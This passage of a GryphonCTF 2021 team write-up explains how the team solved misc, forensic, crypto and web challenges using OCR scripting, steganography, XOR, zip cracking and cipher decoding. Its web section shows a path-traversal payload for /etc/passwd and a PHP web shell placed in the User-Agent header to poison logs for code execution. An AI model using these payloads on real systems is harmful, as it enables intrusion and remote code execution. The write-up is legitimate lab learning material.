    thresh = cv2.threshold(blur, 0, 255, cv2.THRESH_BINARY_INV + cv2.THRESH_OTSU)[1]

    # Morph open to remove noise and invert image
    kernel = cv2.getStructuringElement(cv2.MORPH_RECT, (3,3))
    opening = cv2.morphologyEx(thresh, cv2.MORPH_OPEN, kernel, iterations=1)
    invert = 255 - opening

    # cv2.imshow('thresh', thresh)
    # cv2.imshow('opening', opening)
    # cv2.imshow('invert', invert)

    # OCR the image
    res = pytesseract.image_to_string(invert, config=charset)
    if len(res) == 0:
        raise Exception("Failed to OCR")
    print(f'Recovered {res.strip()} from {src}')

    # cv2.waitKey(0)

    return res

while True:
    soup = BeautifulSoup(r.text, "html.parser")

    if "GCTF{" in soup.text:
        print(soup.text)
        break
    stage = soup.find("h2").text

    quiz_question = resolve(soup, "operator", "-c tessedit_char_whitelist= xADIVEMULTYSBRT+-/0123456789").split(' ')

    operator = quiz_question[1].strip()
    argv_1 = int(quiz_question[0].strip())
    argv_2 = int(quiz_question[2].strip())


    if "/" == operator or "DIV" in operator:
        ans = argv_1 / argv_2
    elif "x" == operator  or "MUL" in operator:
        ans = argv_1 * argv_2
    elif "-" == operator or "SUB" in operator:
        ans = argv_1 - argv_2
    elif "+" == operator or "ADD" in operator:
        ans = argv_1 + argv_2
    else:
        print(f'Unknown op {operator}')
        break

    print(f'Stage {stage}: {argv_1} {operator.strip()} {argv_2} = {ans}')
    print()

    r = s.post(HOST, headers=headers, data=f"answer={ans}")
```

Running the solve.py, we are able to achieve our goal and get the flag.

```plain
Recovered 25990843 MULTIPLY 36736222 from /static/images/img124912.jpg
Stage Level 49: 25990843 MULTIPLY 36736222 = 954805378415146

Recovered 66288008 DIVIDE 80947831 from /static/images/img37471.jpg
Stage Level 50: 66288008 DIVIDE 80947831 = 0.8188978899261674

Congratulations! Your Flag is: GCTF{1_4m_4_sCr1pt_m4st3r}
```
Flag: GCTF{1\_4m\_4\_sCr1pt\_m4st3r}

<br/>

### [Misc] Can y0u f1nd the flag?

Solved by [Gavebean](https://github.com/Gavebean)

Description: I can’t find it, can you? The flag has no numbers in it and is in ALL CAPS.

Hint: Put the text in a place where you can see all matching characters

We were given a text file of what seems to be a bunch for random digits. To solve this challenge, you can do a CTRL + F and search "0", then CTRL + F again and search "1".

```plain
951000000007211
130714864340143
707722228413082
308612930001113
560954151708175
193000000091383
255451155398583
568000000021717
950567573103191
510631738694715
140392168905713
957000000027249
691814622438227
484000000005652
693727084852964
672222051737573
538863082135132
249989033327784
828675582283232
491000000005499
791011946139713
833000043635271
561025135279735
626055318975896
393081394388383
249719345729269
134839500003289
771572061841524
223220976312882
535200987399243
939000673361789
869500133118793
587720923265433
366433038843571
454544600009415
572824822165466
133000000044424
390474171209239
440243428223672
340914427902635
741000000026894
598449964347122
782000000052869
526588041594594
933966038715621
275222069326596
785926014462726
176597555553685
954200000005889
517055135530155
497066346560678
95906000000854
655000369877898
165066008291869
563075660087327
716229326145869
483055369757883
572062442661565
123065467793765
616073468668298
964066426111737
751000000054193
223727341624521
488000000039733
555015553735456
649000341722672
698045859777822
427037472384722
519021179773686
475955356284914
361111111111979
260523557045060
341111111111039
289364154406072
334870193042459
549025179289232
034464108928976
921111111111872
750084225766035
760111111111062
671083652892036
970111111126099
607979382019260
477425522891403
361111111114040
564200005308023
251111111111548
970209370096483
790111111115460
941442042291006
201424450278530
261277008561249
980111111110208
025345344058895
920111111113295
801427220251790
091628052741620
391582920081503
804111111116068
808004809285095
427111111115824
051598323421379
031790937701327
051006525341278
346111111110923
363000384240205
652134088508607
987135447097095
338130782377253
309125092434673
423111111110320
270957956898077
830911179530705
633264217827763
603087981004265
529247081126500
960804279114995
227705931155502
000438701572349
089303816305628
229411100053306
```

Flag: GCTF{CTRLF}

<br/>

### [Misc] Static

Description: swish swoosh

We were given a image file of what looks to be like static.



We can use some steganography tools, like [Stegsolve](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install) to find see whether we can find anything interesting. Honestly, sometimes without hints, you may have to just keep trying different Steganography tools. Luckily for us, StegSolve seems to be the correct tool for the job. A hidden QR Code found at one of the pane of the image as seen in the figure below.



A clearer version of the QR code:


I used a online "photoshop" tool: https://www.photopea.com/Un-twirl, to apply the twirl effect on the image. Try to get it into a right angle, than scan with your QR code scanner, or phone.



Flag: GCTF{h1dd3n\_5w1213d\_1m4935}

<br/>

### [Misc] Frequencies (Unsolved)

### [Misc] nlockTheFile (Unsolved)

### [Misc] O’clock (Unsolved)

<br/>

### [Forensic] Inbetween

Solved by [@ethanlow](https://github.com/eatenlow)

Description: There is a file in a file. Can you find it?

We are given a image file of this yellow circle smiling face :)


We can use BinWalk, a tool for searching a given binary image for embedded files, and extract two files, a text file and an archive file.





The text file contains the following text as seen in the figure below.



The archive file contain after text file, however seem to require a password to extract the text file.



The 3DCB zip file seen above is a password protected zip file which contains a text file. We can extract it successfully using A!m0st as the password.

Flag: GCTF{k3ep\_0n\_s4iling}

<br/>

### [Forensic] Find the mole in the crowd

Solved by [@ethanlow](https://github.com/eatenlow)

Description: Find the flag amongst the many "people" that are in it together.
http://c1.2021.gryphonctf.com:9001/

Visiting the site, it says that the flag can be found here. Using inspect element, we can see that there are 2 commented out Google Drive links


Visiting both Google Drive links we will be able to download 2 different zip files. However, the 1st one is simply a diversion meant to waste your time. You may ignore it and download from the 2nd link.


Once the download is complete, simply extract the zip file and navigate through its subfolders. Clicking into the Demo.zip and then the Demo folder inside it. After which you will see the following:


Click into the New folder and the subsequent mISC folder. You will then see the following:


Click into the New Text Document and you will see some Hexadecimal characters.


Paste these characters into a Hex to ASCII converter and you will obtain the flag.


Flag: GCTF{Im\_N0T\_G00D\_AT\_T1STH1N6}

<br/>

### [Forensic] Music, or is it?

Description: My friend introduced me to a piece of music for me to listen to recently. However, there is something strange in the music. Can you determine what is happening in the music?

The challenge comes with a mp3 file, put it into Sonic Visualizer and add a spectrogram


You will see the following hex characters:
52304e55526e747a55475644644849775a334a41625639706331396a4d4442736651

Converting them to ASCII characters would give us the following:
R0NURntzUGVDdHIwZ3JAbV9pc19jMDBsfQ

Looks to be encoded with Base64, by using a [Base64 decoder](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=UjBOVVJudHpVR1ZEZEhJd1ozSkFiVjlwYzE5ak1EQnNmUQ), we will then obtain the flag.

Flag: GCTF{sPeCtr0gr@m\_is\_c00l}

<br/>

### [Forensic] Thirteen Doges

Solved by [Gavebean](https://github.com/Gavebean)

Description: Here's a pic of good ol' Doge. The one and only. Or is it?

We are provided with an image, doge.jpg.


We can view the strings of the image, by viewing the strings, we can see that the file is embedded with multiple images as seen in the figure below.



Afterwards, we can use [CyberChef Extract Files recipe](https://gchq.github.io/CyberChef/#recipe=Extract_Files(true,true,true,true,true,true,false,true)) to extract the other image or zipped file.



My teammate opt to download biggest file because why not. Opening the zipped file with 7zip, we can see that dog7.jpg has a different CRC32 value.



Once again, perform string extraction on dog7.jpg. We can see the following string: TPGS{q0t3p01a}

By doing rotation cipher, ROT13, we get the flag.

Flag: GCTF{d0g3c01n}

<br/>

### [Forensic] I love streaming music

Solved by [@ethanlow](https://github.com/eatenlow)

Description: I lost my music files during one of my streams, can you help me find them?

In this challenge, we are given a packet capture file, we can start off by opening the PCAP file in WireShark. Afterwards, click on the Statistics tab then Conversations to view traffic between two specific endpoints.


Go to TCP  15 and sort by Bytes in descending order.


Click on the last one and click Follow Stream. You will obtain the following Base64 message.


Decoding it with a Base64 decoder will give you a link.


Visiting the link then provides you with a Google Drive [link](https://drive.google.com/drive/folders/1WTl2_tIn1Kw4jDtu5ZatWsUYuCYDbmLF).


Next, visiting the Google Drive link will show you 2 audio files available for download.


Finally, by using Sonic Visualizer, and viewing the spectrogram layer. The last part of the audio1.mp3 contains the flag.


The flag used was: GCTF{1-l0ve-m0rs3-c0d3}

<br/>

### [Forensic] Sheeesh

Solved by [@ethanlow](https://github.com/eatenlow)

Description: This CTF is bussin' respectfully.

We are given an audio file for this challenge. Put the Sheesh.wav file into Sonic Visualizer and view it in a Spectrogram, an incomplete QR code can be seen.


We can then attempt to reconstruct the QR code manually based on what we can see. There is a online web tool to do QR Code Analysis and Recovery. https://merricx.github.io/qrazybox/

<p align="center">
    
</p>

From this QR code we will obtain the first half of the flag being: GCTF{Sh3e3e3e3e3e5h

For the second part of the flag, we must now put the Sheeesh.wav file into a metadata checker.


We can see that the Technician area seems to be a Base64 code. So we can put it into a decoder to see the results. By decoding the Base64 message, we can the second part of the flag.

<p align="center">
    
</p>

Appending that to the previous half of the flag we had obtained, we now get GCTF{Sh3e3e3e3e3e5h\_1nD33d} which is the flag.

Flag: GCTF{Sh3e3e3e3e3e5h\_1nD33d}

<br/>

### [Forensic] Imerge (Unsolved)

<br/>

### [Forensic] xkey

Description: This is a weird file, I wonder what it contains?

In this challenge, we were given a file that seems to be encrypted. We can start by viewing the strings of the file to see if there is any interesting messages. Using [CyberChef Strings recipe](https://gchq.github.io/CyberChef/#recipe=Strings('Single%20byte',4,'Alphanumeric%20%2B%20punctuation%20(A)',false)), we can find a plaintext: 7keyisonethreethreeseveninnumbers.


Judging by the challenge name, we can guess that the file is encrypted with a XOR Cipher. The key is "1337", by decrypting the file, it reveals that the file is an jpeg image.


Next, we can use BinWalk to extract more files embedded in the image file. After extracting files in the jpeg file, we can see many files as seen in the textbox below.

```bash
binwalk -e flag.jpg
cd _flag.jpg.extracted/xkey_part2

0 1 2 3 4 5 .. .. .. .. .. .. .. .. 7080   7160  7724  8288  8851  9414  8861  9424  9989
1537  4  7758  8320  8885  9448 .. .. 10000 flag.zip README script.py
```

By printing the number files on the standard output, we can see the "flags". However, these aren't the real flags, they are just password for the next step. We can print out the other files.

```bash
$ cat 0 1 2 3 4 5 10000
GCTF{F0r3n51cS_1s_n0T_h4rD_49619}
GCTF{F0r3n51cS_1s_n0T_h4rD_97263}
GCTF{F0r3n51cS_1s_n0T_h4rD_33100}
GCTF{F0r3n51cS_1s_n0T_h4rD_37418}
GCTF{F0r3n51cS_1s_n0T_h4rD_65848}
GCTF{F0r3n51cS_1s_n0T_h4rD_64153}
GCTF{F0r3n51cS_1s_n0T_h4rD_711555}

$ cat README
The password to this zip is in one of these files, can you find it? Here is the source code, I ran it and modified one of the files with the password.
NOTE: This is not the flag, GCTF{..._password} is not the flag. If you run the script, \*THE FLAG WILL BE DELETED\*

$ cat script.py
```
```python
import random
x = 0
while x < 10001:
        with open(str(x), 'w') as f:
            f.write("GCTF{F0r3n51cS_1s_n0T_h4rD_" + str(random.randint(100000,999999)) + "}")
        x += 1
```

By reading the README and script.py file, we can understand that the Python script was used to encrypt the zip file with a randomly generated number. We can do a bit of scripting to get a wordlist to crack zip file. For this task, I opt to use grep, but it would be better to use awk instead, but I was lazy to figure out the command.

```bash
grep -i "[0-9]*}$" *  > wordlist.txt
```


After getting the wordlist with all of the numbers in the text file, we can then use fcrackzip, to crack the zip file.

```bash
fcrackzip -v -u -D -p wordlist.txt flag.zip

found file 'part2.png', (size cp/uc  38989/ 40278, flags 9, chk 1d93)

PASSWORD FOUND!!!!: pw == y0Uf0uNdTh3p@5sw0Rd!
```

Finally, we can extract the the zip file and it contains a image file: part2.png, which is the second part of our flag.


Flag: GCTF{345Y\_f0ReNs1C5\_L0L}

<br/>

### [Forensic]  Image recover (Unsolved)

### [Forensic] Imposter (Unsolved)

### [Forensic] Magnified (Unsolved)

### [Forensic] Off by a bit (Unsolved)

<br/>

### [Crypto] 64-bit symbolic arcade game by Julius

Description: I found this string of text in the code of an old arcade game. Do you think you can decode it?

```plaintext
WW91ciBrZXlib2FyZCB3aWxsIGhlbHAgaW4gdGhlIG5leHQgc3RlcDolJCMkJCUkQCEhIyEjQCMkJCMkJCQkQCMhJSRAISUjJCMjISUjQCMkJEAhJSQjJCQhJSMlJCQjJEBAIyQjJCEkIUBAISEhJCMhJCNAIUAkJEAlJCUhJSRAQEAlJQ==
```

Seems to be Base64 encoded, by decoding it, we get the following message:

```Your keyboard will help in the next step:%$#$$%$@!!#!#@#$$#$$$$@#!%$@!%#$##!%#@#$$@!%$#$$!%#%$$#$@@#$#$!$!@@!!!$#!$#@!@$$@%$%!%$@@@%%
```

As implied by the previous message, we can convert the symbols by replacing them with the corresponding number.

```
54344542113132344344442315421534331532344215434415354434223434141221114314321244254515422255
```

This part got us stumped for a while. We used https://www.dcode.fr/cipher-identifier to identify the cipher and found out that this message is encrypted with [polybius-cipher](https://www.dcode.fr/polybius-cipher).

After decrypting the message, we can see the following text message:

YOURALMOSTTHEREONEMORESTEPTOGO ODBFASDMBTKUERGZ

Finally apply Rotation cipher, shift left by 12 to obtain the flag.
[Rot13 CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,-12)&input=WU9VUkFMTU9TVFRIRVJFT05FTU9SRVNURVBUT0dPIE9EQkZBU0RNQlRLVUVSR1o)

MCIFOZACGHHVSFSCBSACFSGHSDHCUC CRPTOGRAPHYISFUN

Flag: GCTF{CRPTOGRAPHYISFUN}

<br/>

### [Crypto] cIPheR

Solved by [Gavebean](https://github.com/Gavebean)

Description: easy multi step cipher

```
1.
S0EYRxyBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWGQEKBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFLVUXVRLJBAZFTJVWFQEKBINGTUUPGQMCCHYFLVUXURLJCAZFTJVWFQEKBIdGSUUPHQMYCHYFLVUXURLJBAZFTJVWFQEOBINGSUUPGQMYCHYFLVUXURLJBApFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLNBAZFTJVWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQuKBINGSUUPGQMCCHYFLVUXURLJCAZFTJVAFQEKBINGSUUPHQMYCHYJLVUXURLJBAZFTJVWFQEKBINGSUkPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLJBAZFTJlWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQEKBINGTUUPGQMYCHYFLVkXURLJCAZFTJVW9

2.
svefg zrny bs gur qnl va pncf vf gur xrl gb guvf punyyratr
```

This challenge was split into two parts, we can decode the second part first with ROT13 to obtain the following message.

first meal of the day in caps is the key to this challenge

This probably meant the key is BREAKFAST, afterwhich we then use this key with Vigenere cipher.

```
1. S0EYRxyBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWGQEKBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFLVUXVRLJBAZFTJVWFQEKBINGTUUPGQMCCHYFLVUXURLJCAZFTJVWFQEKBIdGSUUPHQMYCHYFLVUXURLJBAZFTJVWFQEOBINGSUUPGQMYCHYFLVUXURLJBApFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLNBAZFTJVWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQuKBINGSUUPGQMCCHYFLVUXURLJCAZFTJVAFQEKBINGSUUPHQMYCHYJLVUXURLJBAZFTJVWFQEKBINGSUkPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLJBAZFTJlWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQEKBINGTUUPGQMYCHYFLVkXURLJCAZFTJVW9

Vigenere Decode (Key=BREAKFAST) = R0NURntBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUF9

Base64 = GCTF{AAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAABAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAABAAAABAAAAAAAAAAAAAABAAAAAAAAAAAAAABAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAAAAAABAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAABAAAAAAAAABAAAAAAAAAAAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAA}
```

CyberChef automatically decoded the message with the Bacon Cipher Decode, which gives us the flag, BACONISTOOSALTY.

[Bacon Cipher CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=Bacon_Cipher_Decode('Standard%20(I%3DJ%20and%20U%3DV)','A/B',false)Bacon_Cipher_Decode('Standard%20(I%3DJ%20and%20U%3DV)','A/B',false)&input=QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQkFBQUFB)

Flag: GCTF{BACONISTOOSALTY}

<br/>

### [Crypto] Story of louis

Solved by [Gavebean](https://github.com/Gavebean)

Description: Have a look through the web and have fun discovering it!
http://c1.2021.gryphonctf.com:9008/

By doing Inspect element, we can see a Google Drive link: https://drive.google.com/drive/folders/13-FU59-OBpNdX5v5MOX1SlY6EtWpCAP_.

The Google Drive contains three images.


```
Congrats :) You are almost there!!!
110110100100011110110100{111000101010101001010100011100_110000111010100000010100111000111000100010}
some more in4 (can_be_hint) abt Louis:
1. 1n 1819, 4t th3 4g3 0f 10, h3 w4s 4cc3pt3d t0 th3 1nst1tut3 f0r 6l1nd Ch1ldr3n 1n P4r1s.
2. H1s f4v0ur1t3 numb63r w4s s1x.
3. H3 l0v3d t0 4rr4ng3 h1s stuff fr0m th3 l3ft t0 th3 r1ght, th3 t0p t0 th3 b0tt0m
Have funnn <3
```

Honestly, we guess the payload so we don't actually know how to solve this lol.

Answer = GCTF{LOUIS_BRAILLE}

<br/>

### [Crypto] Dumplings with vinegar

Solved by [Gavebean](https://github.com/Gavebean)

Description: This is an easy challenge to go, try to discover what is behind the image and get the flag.


We are given a image of some yummy dumpings, by viewing the strings, we can see the encoded flag and some messages.

```plaintext
Congrats :) You are almost there!!!
2K7J{33HxHz7_z0_ten_pl01HNvt7_01H_epF_09sa}
more hints: from the A to the Z then from the 1 to the 0,
Chinese black vinegar is widely used in Chinese cooking for all types of cold appetizers, braised meats and fish, noodles and as a dipping condiment for dumplings.
And who knows it might be a key.
Have funnn <3
```

We can then apply Vigenere Cipher Decode, with alphabet = A to Z, 1 to 0 and the Key = VINEGAR, which will result in the flag = GCTF{W31c0m3\_t0\_ctf\_ch4113ng3\_411\_th3\_63st}.

Flag: GCTF{W31c0m3\_t0\_ctf\_ch4113ng3\_411\_th3\_63st}

<br/>

### [Crypto] FF and more FFFFFF (Unsolved)

### [Crypto] The Gift of Rivest, Shamir, and Adleman (Unsolved)

### [Crypto] Collision (Unsolved)

<br/>

### [Web] Vincenzo

Solved by [@ethanlow](https://github.com/eatenlow)

Description: During a visit to his motherland, a Korean-Italian mafia lawyer gives a conglomerate a taste of its own medicine with a side of justice. Watch now!
http://c1.2021.gryphonctf.com:9009/

A simple web challenge, we can start with an Inspect element to view if there are any commented text.


You will find a paragraph element there with GCTF and a link. Click on the link and you will be redirected to the following page:


On the new page, it tells you the flag is Song Joong Ki's Birthday. Inspect element again and you will see a hidden element which tells you the format to enter his birthday in.

Googling, Song Joong Ki's Birthday is 19 September 1985. Hence this flag is GCTF{19091985}.

Flag: GCTF{19091985}

<br/>

### [Web] Legit local poison

Description: This website is poisonous. I am trying to find my file but my computer keeps getting infected by the poison. Can you help me find my file?
nc c2.2021.gryphonctf.com 8001

Hint: **Local**

By guessing from the challenge title and description, we can guess that this web challenge is about Local File Inclusion vulnerable in PHP.

```php
Warning: Undefined array key "file" in /var/www/html/submit.php on line 2
File Selected: /var/www/html/


Warning: include(/var/www/html): Failed to open stream: Not a directory in /var/www/html/submit.php on line 4

Warning: include(): Failed opening '/var/www/html/' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/submit.php on line 4
```

We can test this by going onto the website and submitting some common payload like ../../../../../../../../../../../../etc/passwd.


According to [PayloadAllTheThings PHP File inclusion payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md), if the Apache server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log, set inside the **user agent** or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and execute code using the "c" GET parameter.

We can try this out by setting using BrupSuite and setting our User-Agent to a HTTP Get parameter where we can input our malicious php code. With this, we can then list the files and directory of the webserver with ls. Then doing some simple enumarting, we can find the flag located at EqDtLyPnMCE8ZDKGyAoNbwfxZIRA/uhokwaQfzAiKLYCpoRzaZDnHFuIgmk/flag.txt.


<br/>

### [Web] Internal

Description: The aliens have abducted the cow... can you help us find him?

